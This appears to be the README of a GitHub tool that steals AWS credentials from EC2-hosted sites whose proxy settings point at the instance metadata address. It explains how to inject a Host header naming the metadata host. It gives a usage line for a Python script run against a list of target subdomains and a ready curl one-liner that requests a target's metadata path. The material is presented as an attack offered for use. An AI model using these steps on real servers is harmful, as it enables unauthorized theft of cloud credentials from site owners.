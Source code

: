 ### What is this?
The set `proxy_server` and `proxy_pass` directives are typically used in the configuration file of a web server like Apache or Nginx running on an Amazon EC2 instance to configure a proxy server that will forward incoming requests to another server.


#### Misconfiguration:
Sometimes people set http://aws.ca.fi (which resolves to `169.254.169.254`) as proxy server that will receive incoming requests.

### Exploit
So we can modify the proxy by passing aws metadata url to the header and get aws-credentials. Most common header is `Host` header but you can brute-force with other headers to find out(modify the script accordingly).


### How to run?
- Pass a file(full path) with target subdomains
    - file format without http or https protocol: 
    ```
        line 1: stage.abc.com 
        line 2: beta-stage.abc.com
    ```
- Run: `python aws-credentials-via-proxy.py C:\Users\Nitin\Documents\github\subdomains.txt`

If you have fewer or one target, run - `curl -ik -H "Host:aws.ca.fi" http://target.com/latest/meta-data/`

